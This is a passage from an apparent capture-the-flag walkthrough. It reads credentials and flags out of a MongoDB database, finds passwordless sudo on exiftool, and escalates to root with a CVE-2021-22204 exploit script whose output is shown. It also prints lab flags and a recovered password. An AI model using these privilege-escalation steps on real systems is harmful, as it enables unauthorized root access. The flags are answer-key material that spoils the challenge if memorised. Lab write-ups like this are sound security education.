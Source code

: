 ```
{ "_id" : ObjectId("60a89f3aaadffb0ea68915fb"), "name" : "thm{c3d1af8da23926a30b0c8f4d6ab71bf851754568}" }
```

## What is the user.txt flag?
And viewing the user collection we get the user password to escalate on the machine
```
> db.user.find()
{ "_id" : ObjectId("60a89d0caadffb0ea68915f9"), "name" : "p4ssw0rdhack3d!123" }
{ "_id" : ObjectId("60a89dfbaadffb0ea68915fa"), "name" : "stux" }

```
And now i am stux `uid=1000(stux) gid=1000(stux) groups=1000(stux),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)`
thm{c5fc72c48759318c78ec88a786d7c213da05f0ce}

## What is the CVE number for the vulnerability affecting the binary assigned to the system user? Answer format: CVE-0000-0000
We can see by running sudo -l that we can sudo run without a password exiftool..
```
stux@ubuntu:~$ sudo -l
Matching Defaults entries for stux on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User stux may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/local/bin/exiftool
```
Recently though there was a vulnerability disclosure on exiftool. Let's see if this is the vulnerable version!
The machine is running exiftool 12.05 and the vulnerability is affecting everything from 7.4 and up until 12.24 which means this is vulnerable and since we can run it as sudo we can get priviledge escalation fairly easily
```
stux@ubuntu:~$ exiftool -ver
12.05
```

The CVE number is CVE-2021-22204

## What is the utility used to create the PoC file?
We will use the djvumake utility to generate the payload.

## Escalate your privileges. What is the flag in root.txt?
This blog explains the vulnerability pretty well
https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/

Let's recreate it in a script and execute it.
```
stux@ubuntu:~$ ls
configfile           exploit.djvu  image.jpeg_original  payload.bzz
exiftool_exploit.sh  image.jpeg    payload              user.txt
stux@ubuntu:~$ chmod +x exiftool_exploit.sh
stux@ubuntu:~$ ./exiftool_exploit.sh 
Preparing payload
Preparing exploit
Writing exploit
    1 image files updated
Executing exploit
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# 
```